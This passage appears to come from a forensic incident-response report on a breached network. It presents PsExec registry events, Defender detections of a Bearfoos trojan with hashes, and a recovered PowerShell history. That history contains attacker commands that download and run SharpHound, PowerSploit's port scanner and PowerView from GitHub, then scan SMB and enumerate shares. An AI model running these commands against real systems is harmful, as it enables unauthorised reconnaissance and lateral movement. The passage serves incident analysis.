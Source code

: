 | 2022-02-19 21:19:10 | 13 | + Usage of Sysinternals Tools <br/> "rdp01.magnumtempus.financial" <br/> DWORD (0x00000001) <br/> HKU\.DEFAULT\Software\Sysinternals\PsExe c\EulaAccepted |
| 2022-02-19 21:19:19 | 13 | + Usage of Sysinternals Tools <br/> "rdp01.magnumtempus.financial" <br/> DWORD (0x00000001) <br/> HKU\.DEFAULT\Software\Sysinternals\PsExe c\EulaAccepted |
| 2022-02-19 21:19:46 | 13 | + Usage of Sysinternals Tools <br/> "rdp01.magnumtempus.financial" <br/> DWORD (0x00000001) <br/> HKU\.DEFAULT\Software\Sysinternals\PsExe c\EulaAccepted |
| 2022-02-19 21:21:25 | 13 | + Usage of Sysinternals Tools <br/> "rdp01.magnumtempus.financial" <br/> DWORD (0x00000001) <br/> HKU\.DEFAULT\Software\Sysinternals\PsExe c\EulaAccepted |
| 2022-02-19 21:21:32 | 13 | + Usage of Sysinternals Tools <br/> "rdp01.magnumtempus.financial" <br/> DWORD (0x00000001) <br/> HKU\.DEFAULT\Software\Sysinternals\PsExe c\EulaAccepted |
| 2022-02-19 21:26:43 | 13 | + Usage of Sysinternals Tools <br/> "rdp01.magnumtempus.financial" <br/> DWORD (0x00000001) <br/> HKU\.DEFAULT\Software\Sysinternals\PsExe c\EulaAccepted |
| 2022-02-19 21:28:17 | 13 | + Usage of Sysinternals Tools <br/> "rdp01.magnumtempus.financial" <br/> DWORD (0x00000001) <br/> HKU\.DEFAULT\Software\Sysinternals\PsExe c\EulaAccepted |
| 2022-02-19 21:30:03 | 13 | + Usage of Sysinternals Tools <br/> "rdp01.magnumtempus.financial" <br/> DWORD (0x00000001) <br/> HKU\.DEFAULT\Software\Sysinternals\PsExe c\EulaAccepted |

---

**Finding 11:** Malware Detected in Memory - Trojan:Win32/Bearfoos.A!ml:
```
Detected: Trojan:Win32/Bearfoos.A!ml
Status: Removed or restored
Date: 2/23/2022 4:27 PM
Details: This program is dangerous and executes commands from an attacker.
Affected items: file: C:\Downloads\Volatility\VoLoki\dlldump\module.4592.b95f5300.7ff61a130000.dll
MD5: 0e17b091ea6e51960d5d3f8d68cdb825 
SHA-1: c0a69ad56c55b9692d4fbe0fe7284046bbf7b939
VirusTotal: No Matches Found
```


**Detected: Trojan:Win32/Bearfoos.A!ml**
```
Status: Quarantined
Date: 2/23/2022 7:33 PM
Affected items: file: C:\Downloads\Volatility\VoLoki\prcdump\executable.4592.exe
MD5: 0e17b091ea6e51960d5d3f8d68cdb825
SHA-1: c0a69ad56c55b9692d4fbe0fe7284046bbf7b939
VirusTotal: No Matches Found
Process ID: 4592
Parent ID: 5076 
Process Name: Taskmgr.exe
```

---

**Finding 12:** Pat Risus: Powershell History (PSReadLine):
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls, [Net.SecurityProtocolType]::Tls11, [Net.SecurityProtocolType]::Tls12, [Net.SecurityProtocolType]::Ssl3;[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls, [Net.SecurityProtocolType]::Tls11, [Net.SecurityProtocolType]::Tls12, [Net.SecurityProtocolType]::Ssl3;
[Net.ServicePointManager]::SecurityProtocol = "Tls, Tls11, Tls12, Ssl3";
iex (new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1') ; invoke-bloodhound -Collectionmethod dconly
clear
mv .\20220219201253_BloodHound.zip .\Desktop\
foreach ($s in [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest().Sites ){write-host "[>] (site) $s";foreach ($r in $s.Subnets){write-host "    └─> (subnet) $r";foreach ($m in $s.Servers){write-host "       └─> (server) $m"}}}
ipconfig /all
IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1'); invoke-portscan -hosts 172.16.50.0/24 -ports "445" -AllformatsOut smbScan
ls
cat .\smbScan.gnmap
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess
```